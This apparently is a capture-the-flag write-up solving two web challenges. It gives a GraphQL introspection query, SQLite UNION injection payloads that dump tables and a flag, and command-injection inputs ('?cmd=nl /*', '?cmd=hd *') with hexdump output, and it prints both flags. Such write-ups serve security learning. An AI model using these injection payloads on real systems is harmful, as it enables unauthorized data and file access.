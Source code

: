 # Table of contents
- ## [graphed 2.0](#graphed-20)
- ## [hackme](#hackme)
  
---


# Notes

### I'm using Ubuntu 20.04 as my environment.

---

# graphed 2.0
![questoin screenshot](../images/graphed.png)

## *At the time of writing this, the website is down*

## Information
1. It's a website with graphql as backend

## My solution
1. Query this to get lots of information
```
http://45.134.3.200:8080//graphql?query={
    __schema{
        types{
            name,
            description,
            enumValues{
                name,
                description
             },
            fields{
                name,
                args{
                    name,
                    description,
                    type{
                        name,
                        kind,
                        ofType{
                            name,
                            kind
                         }
                      },
                   defaultValue
                   },
                description,
                type{
                    name,
                    kind,
                    ofType{
                        name,
                        kind
                        }
                     }
                }
            }
         }
       }
```
2. from all the returned queries and mutations, there will be a query named ```getNote('string')```, we can do sqlite injection into the query

3. getting all the tables
```
query={
    getNote(q:"1' union select type,name,tbl_name,NULL from sqlite_master--")
    {body,title}
    }
```

![solution 1](../images/graphed_sol_1.png)

4. The flag is in the table named العلم *(Google translate: "Science?")*

```
query={
    getNote(q:"1' union select id,flag,NULL,NULL from العلم--")
    {body,title}
    }
```

## Flag : flag{h0p3_u_can't_r3@d_1t9176}

---

# hackme

![Question screenshot](../images/hackme.png)

## Information
1. use arg cmd for running a command and arg ?reset for clearing the env

## My solution
1. before this challenge i wasn't aware of the command ```nl```, i found it by trying all the two words command i can find on my machine.
2. the solution is quite simple, visit the url with argument ```?cmd=nl /*```
![solution 1](../images/hackme_sol_1.png)
3. which will give out internal server error at first
4. next do ```?cmd=hd *```
```
.
.
.
0000c1b0  01 00 00 00 00 00 00 00  40 0e 00 00 00 00 00 00  |........@.......|
0000c1c0  c8 7d 85 ea 28 7f 00 00  c8 7d 85 ea 28 7f 00 00  |.}..(....}..(...|
0000c1d0  00 00 00 00 00 00 00 00  ad 4a 61 ea 28 7f 00 00  |.........Ja.(...|
0000c1e0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
0000c200  55 4b 61 ea 28 7f 00 00  14 4c 61 ea 28 7f 00 00  |UKa.(....La.(...|
0000c210  fe 4b 61 ea 28 7f 00 00  b0 a2 85 ea 28 7f 00 00  |.Ka.(.......(...|
0000c220  00 04 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
0000c230  00 00 00 00 00 00 00 00  03 00 00 00 00 00 00 00  |................|
0000c240  00 00 00 00 00 00 00 00  00 00 ff ff ff ff ff ff  |................|
0000c250  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
0000c2b0  66 6c 61 67 7b 6a 75 35  37 5f 67 30 74 74 40 5f  |flag{ju57_g0tt@_|
0000c2c0  35 70 6c 31 74 5f 45 6d  33 30 31 32 7d 0a 00 00  |5pl1t_Em3012}...|
0000c2d0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
0000c6b0  01 05 00 00 00 00 00 00  41 09 00 00 00 00 00 00  |........A.......|
0000c6c0  80 7d 85 ea 28 7f 00 00  80 7d 85 ea 28 7f 00 00  |.}..(....}..(...|
0000c6d0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
0000cff0  40 0e 00 00 00 00 00 00  01 00 00 00 00 00 00 00  |@...............|
0000d000  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
0002be50  00 00 00 00 00 00 00 00  ab 00 00 00 00 00 00 00  |................|
0002be60  28 19 f3 20 ff 7f 00 00  e9 1c 62 ea 28 7f 00 00  |(.. ......b.(...|
0002be70  00 00 00 00 00 00 00 00  a8 0e f3 20 ff 7f 00 00  |........... ....|
0002be80  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
0002bf20  00 00 00 00 00 00 00 00  ac 19 62 ea 28 7f 00 00  |..........b.(...|
0002bf30  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
0002bfb0  00 00 00 10 00 00 00 00  00 00 00 00 00 00 00 00  |................|
0002bfc0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
.
.
.
```

## Flag: flag{ju57_g0tt@_5pl1t_Em3012}
---